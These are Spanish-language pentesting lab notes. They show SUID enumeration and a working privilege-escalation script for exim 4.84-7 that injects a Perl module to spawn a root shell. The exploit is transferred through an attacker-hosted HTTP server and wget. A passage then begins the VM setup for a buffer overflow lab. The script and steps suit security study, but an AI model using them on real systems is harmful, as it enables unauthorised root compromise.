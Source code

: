 ![[Binarios 8.png]]

-----

Una vez dentro buscaremos formas de escalar nuestro privilegio, en este caso para aprender a explotar el binario de esta sección, haremos un ``find / -perm -4000 2>/dev/null`` y el binario que nos interesa es el ``/usr/exim/bin/exim-4.84-7``.

**Exim** es un agente de transporte de correo desarrollado por la Universidad de Cambridge y puede ser utilizado en la mayoría de los sistemas Unix​.

Como nosotros vemos que este binario posee una versión *4.84-7* indagaremos con la herramienta ``searchsploit`` para ver si existe alguna **vulnerabilidad**.

![[Binarios 9.png]]

Descargamos el archivo con ``searchsploit -m 39459`` y nos lo pasamos a la máquina víctima montando un servidor en nuestra máquina con ``python -m http.server 80`` para en la máquina víctima yendo al directorio ``/tmp/`` hacer un ``wget nuestra-ip/39549.txt``, de esta manera ya tendríamos el exploit en el laboratorio. Lo único que queda es darle permisos de ejecución al archivo.

**Script**

```sh
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

![[Binarios 10.png]]

De esta forma habríamos escalado privilegios de forma satisfactoria.

-----
## Binario vulnerable a Buffer Overflow Linux x86 (32 Bits)

Recomiendo ver la sección de [[Introducción al Buffer Overflow]] antes de realizar esto ya que ahí se explican conceptos básicos que se dan por sabidos en este caso.

Ingresaremos a la web https://releases.ubuntu.com/16.04/ y descargaremos la versión de *32 Bits*.

![[Binarios 11.png]]

Ahora lo que quedas es montar esta imagen en nuestro **VMware** colocándole las características:

- ``Store virtual disk as a sigle file``
- ``Bridged``
- ``Replicate Physical Network connection state``

Simplemente encendemos la máquina y esperamos a que inicie.

